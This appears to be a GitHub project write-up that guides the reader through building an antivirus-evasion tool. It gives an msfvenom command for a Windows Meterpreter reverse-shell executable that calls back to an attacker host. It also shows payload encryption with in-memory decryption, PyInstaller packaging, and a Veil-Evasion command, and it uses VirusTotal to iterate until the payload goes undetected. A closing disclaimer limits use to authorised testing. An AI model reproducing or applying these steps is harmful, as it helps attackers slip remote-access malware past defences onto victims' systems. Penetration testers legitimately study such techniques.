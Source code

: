 # antivirus_bypass_tool.md

# 77: Antivirus Bypass Tool with Obfuscation Techniques

## Project Objective
The purpose of this project is to create a tool that implements obfuscation techniques to evade antivirus detection. This can be achieved by modifying the malware or payload code to hide its behavior and make it less detectable by antivirus engines. This "bypass" process allows more effective penetration testing and improves understanding of how antivirus systems detect and block threats.

## Steps to Develop the Tool

### 1. Payload Selection and Environment Setup
- **Payload Selection:** Create or select a payload to run on the victim system. A common example is a reverse shell that connects back to the attacker's machine and allows remote command execution.  
- **Testing Environment:** Use virtual machines to create a controlled environment where you can safely perform tests. Ensure you have a victim machine (e.g., Windows VM) and an attacker machine (e.g., Kali Linux or Parrot OS).

### 2. Payload Preparation
- **Using Metasploit Framework:**  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe
```
This generates `payload.exe` which attempts to connect to your attacker's IP at port 4444.  
- **Alternative:** You can also create a simple reverse shell in Python, but using Metasploit simplifies the process.

### 3. Code Obfuscation Techniques
- **String Obfuscation:** Hide IP addresses, command names, or network protocols using Base64 or similar techniques.  
```python
import base64
original_string = "reverse_tcp"
encoded_string = base64.b64encode(original_string.encode('utf-8')).decode('utf-8')
print(encoded_string)  # Output: "cmV2ZXJzZXRfY3Rw"
```
- **Payload Polymorphism:** Generate unique payloads each time to avoid antivirus detection. Alter code structure while keeping functionality.  
- **Dynamic Encryption/Decryption:** Encrypt the payload and decrypt it in memory during execution.  
```python
from cryptography.fernet import Fernet
key = Fernet.generate_key()
cipher_suite = Fernet(key)
cipher_text = cipher_suite.encrypt(b"reverse_shell_payload")
decrypted_payload = cipher_suite.decrypt(cipher_text)
```

### 4. Binary Obfuscation and Execution
- **PyInstaller Compilation:**  
```bash
pyinstaller --onefile --clean --distpath dist payload.py
```
- **Additional Binary Obfuscation:** Use tools like CFF Explorer to modify the binary and add extra layers of obfuscation.

### 5. Antivirus Bypass
- **Avoid Signature Detection:** Modify code strings and structures to prevent matching known antivirus signatures.  
- **Frameworks like Veil:** Create obfuscated payloads with:  
```bash
veil-evasion -p python/meterpreter_reverse_tcp
```

### 6. Detection Analysis and Improvement
- **Testing Against Antivirus:** Use VirusTotal to check detection. Adjust code if detected and retest.

### 7. Reporting and Improvements
- Document techniques, results, and potential improvements for future payload versions.

## Ethical and Legal Considerations
This project should only be done for educational purposes in controlled and ethical environments. Antivirus bypass techniques must only be used in authorized penetration testing, not for malicious purposes.

## Conclusion
Creating an antivirus bypass tool with obfuscation techniques is an advanced project that requires deep understanding of antivirus systems, detection methods, obfuscation techniques, and binary analysis. It enhances skills in programming, ethical hacking, and security evasion techniques.
